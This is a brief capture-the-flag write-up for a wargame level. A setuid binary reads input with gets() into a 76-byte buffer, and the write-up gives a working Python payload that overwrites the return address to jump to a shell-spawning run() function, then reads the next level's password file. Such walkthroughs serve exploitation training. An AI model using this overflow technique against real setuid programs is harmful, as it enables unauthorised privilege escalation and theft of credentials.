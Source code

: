 # Level 1

We have an executable "./level1" owned by level2.
```sh
$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

He's reading on standard entry. When we decopile it, when see a gets() function who store the input in a buffer of 76. We can perform a buffer overflow.

```sh
$ python -c "print 'A' * 77" | ./level1
Illegal instruction (core dumped)
```

We can also see a run() function who start a shell as level2 at the memory address 0x804844a. 
```sh
$ gdb ./level1
(gdb) b run
Breakpoint 1 at 0x804844a
```

We want to enter in this function. For this, we have to override the part of the stack (EIP) dedicated to the next function to execute.
```sh
$ (python -c "print 'A' * 76 + '\x4a\x84\x04\x08'"; cat) | ./level1
Good... Wait what?

whoami
level2

cd ../level2

cat .pass
```